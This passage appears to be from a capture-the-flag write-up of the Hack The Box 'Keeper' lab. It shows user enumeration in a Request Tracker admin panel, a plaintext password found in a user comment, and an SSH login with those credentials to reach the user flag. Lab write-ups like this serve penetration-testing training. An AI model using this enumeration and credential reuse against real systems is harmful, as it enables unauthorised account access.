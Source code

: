 User enumeration in `http://tickets.keeper.htb/rt/Admin/Users/`
```
27 	lnorgaard 	Lise Nørgaard 	lnorgaard@keeper.htb
14 	root 	    Enoch Root 	    root@localhost
```
> While exploring the web application a user enumeration is found.

<br>

### Finding user creds

Checking the user `lnorgaard` in `http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27`, a password for this user is found in the comments.
```
Welcome2023!
```

![](../assets/img/keeper/userpass.png)

<br>

### User.txt
A stable shell is achieved by logging in SSH using the found user `lnorgaard@keeper.htb` and its password `Welcome2023!`.
```shell
└─$ ssh lnorgaard@keeper.htb   
The authenticity of host 'keeper.htb (10.129.97.93)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'keeper.htb' (ED25519) to the list of known hosts.
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ 
```
![](../assets/img/keeper/userflag.png)
> User flag is owned!
